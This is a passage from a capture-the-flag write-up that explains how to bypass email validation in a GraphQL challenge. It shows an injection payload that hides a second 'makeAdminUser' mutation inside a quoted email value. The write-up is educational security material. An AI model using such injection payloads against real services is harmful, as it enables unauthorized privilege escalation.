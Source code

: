 ![flag1](https://raw.githubusercontent.com/Coutinho-David/WriteUps/main/GNPCTF25/Real-Christmas/flag1.png)

--- 

# THE V2 

The V2 has one simple code change, you no longer can use **id** on the MakeAdminUser mutation, so you are required to use **email**

This : `makeAdminUser(user: { id: 1 })` does NOT work

This enforces us to use a payload like the previous, with one simple change:

- `"... {email:"someone@somewhere.com"} ... #"@cdm.com`

Giving us:

```python
mutation {
  deactivateUser(user: { email: "" }) {success} makeAdminUser(user {email:"someone@somewhere.com"}) { #"@cdm.com 
    success
  }
}
```

Why is this a huge issue? We now need to use double quotes inside of double quotes, which the RFC does not enjoy much, `" "" "`

### So how can we pass validation and do an injection? 

Previously I showed you in a simple way how the RFC sees an email, I (kinda) lied to you again ;)

Now we will see how the RFC **really** sees an email
